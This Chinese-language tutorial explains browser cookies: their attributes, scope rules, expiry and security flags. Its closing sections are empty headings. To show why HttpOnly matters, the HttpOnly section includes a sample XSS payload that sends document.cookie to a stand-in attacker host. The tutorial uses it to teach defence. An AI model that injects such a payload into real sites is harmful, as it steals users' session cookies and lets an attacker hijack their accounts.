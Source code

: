 ## cookie
`cookie` 是存储在浏览器的一小段文本信息。

### cookie 特征
- 伴随着 `http` 地请求往返于浏览器和服务器之间。
- 不同域名或不同路径下 cookie 的存储区域是不一样的。
- 每个域名下的 cookie 总数是有限的，每个浏览器所能允许存储的 cookie 大小也是有限制的。

  浏览器|每个域名最大 cookie 总数|cookie 总字节数
  --|--|--
  Chrome|180|4096
  Firefox|150|4097
  InternetExplorer|50|5117
  Opera|60|4096
  Safari|600|4093
- 不可跨域，有实效性等。

### cookie 作用
- 标识用户身份。
- 同源下，跨页面通信的一种方式。

### cookie 原理
- 浏览器第一次请求，服务器通过响应头下发 cookie，标识用户身份。
- 浏览器第二次请求，会自动带上符合条件的 cookie，服务器根据 cookie 辨识身份，来返回合理的响应体。

![cookie-原理.png](imgs/cookie-原理.png)

### cookie 属性
**name**: 同域下的 cookie-name 不可相同，否则会覆盖前者。有两个特殊的 name：

name|含义
--|--
__Secure- 前缀|以 __Secure- 为前缀的 cookie（其中连接符是前缀的一部分），必须与 secure 属性一同设置，同时必须应用于安全页面（即使用 HTTPS 访问的页面）
__Host- 前缀|以 __Host- 为前缀的 cookie，必须与 secure 属性一同设置，必须应用于安全页面（即使用 HTTPS 访问的页面），必须不能设置 domain 属性 （也就不会发送给子域），同时 path 属性的值必须为“/”

> [谷歌搜索](https://www.google.com/)就存在带有这种特殊前缀的 cookie-name。

**value**: 许多应用对其进行了编码，但按照 RFC 规范，无须编码。

**domain**: 控制 cookie 对哪个域有效。默认值是自动绑定当前站点的根路径。
- 不可跨域，比如在 localhost:5000 下不可设置 domain 为 127.0.0.1:7001 站点下的 cookie。
- 一级域名相同下的 cookie 可作用于二级域名，但是二级域名间不可交换使用。<br />比如：a.baidu.com 和 b.baidu.com 可使用 .baidu.com 域名下的 cookie，但 a.baidu.com 和 b.baidu.com 站点下的 cookie 不可相互使用。

**path**: 设置 cookie 的作用路径（就是页面路由 pathname）。当用户访问 /spa 时，可使用 / 和 /spa 下的 cookie，但不能使用 /ssr 下的 cookie。

**expires/max-age**: 设置 cookie 的过期时间。默认是 session，浏览器会话结束（关闭浏览器）时。
  - expires 是一个时间点，单位**毫秒**； 
  - max-age 是一个以**秒**为时间的时间段。max-age 可能的值：负数、0、正数。
    值|含义
    --|--
    负数|有效期为 session
    0|删除 cookie
    正数|有效期为创建时刻 + 最大时间

    例如，设置两年后过期：
    ``` js
    const expires = new Date(Date.now() + 2 * 365 * 24 * 3600 * 1000).toGMTString()
    const maxAge = 2 * 365 * 24 * 3600;
    ```
**secure**: 默认情况下，不管是 http、https 协议的请求都会把 cookie 发送到服务端。设置 secure 为 true 时，此时的 cookie 只能在 https 等安全协议下传输。
> 注意：只有是在 https 安全协议下的 web 站点，才能设置 secure 的值。

**HttpOnly**: 是否禁止浏览器通过 document.cookie 获取 cookie。这样能有效防止 XSS 攻击。假如 hacker 植入 script 脚本成功了且目标站点 HttpOnly 又设置为 false，那么 hacker 可轻松获取用户的 cookie：

``` js
<script>
  new Image().src = 'http://www.hacker.com/c=' + decodeURIComponent(document.cookie)
</script>
```

### cookie 设置、获取、删除

### cookie 优缺点

### refs
